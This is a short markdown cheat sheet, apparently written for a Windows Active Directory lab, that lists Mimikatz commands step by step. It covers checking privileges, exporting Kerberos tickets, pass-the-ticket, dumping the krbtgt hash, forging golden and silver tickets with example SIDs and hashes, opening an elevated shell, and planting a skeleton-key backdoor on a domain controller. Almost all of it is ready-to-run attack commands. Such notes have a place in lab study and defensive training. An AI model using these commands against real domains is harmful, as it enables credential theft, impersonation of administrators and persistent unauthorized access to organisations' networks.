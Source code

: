 ### check privs
`privilege::debug`
Output '20' means you have admin privs

---

### export .kirbi tickets into current dir
`sekurlsa::tickets /export`

try looking for admin ticket from krbtgt

---

### pass the ticket
`kerberos::ptt <ticket>` 
will cache and impersonate given ticket

example: 
```
kerberos::ptt [0;2a7822]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
```

you will now have the ticket in your cache. you can verify in cmd using `klist`

---

### golden ticket

`lsadump::lsa /inject /name:krbtgt` 
will dump NTLM hash and SID needed to create golden ticket

for silver ticket you need to change `/name:` to dump hash of domain admin or service account

Creating the golden ticket:
`kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:`

example:
```
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-15021
58860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
```

to create a silver ticket - put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.


---

### using the ticket
`misc::cmd`
open a new elevated cmd prompt with given ticket

---

### skeleton key (kerberos backdoor)
`misc::skeleton`

**examples**

`net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz`
The share will now be accessible without the need for the Administrators password

`dir \\Desktop-1\c$ /user:Machine1 mimikatz`
access the directory of Desktop-1 without ever knowing what users have access to Desktop-1
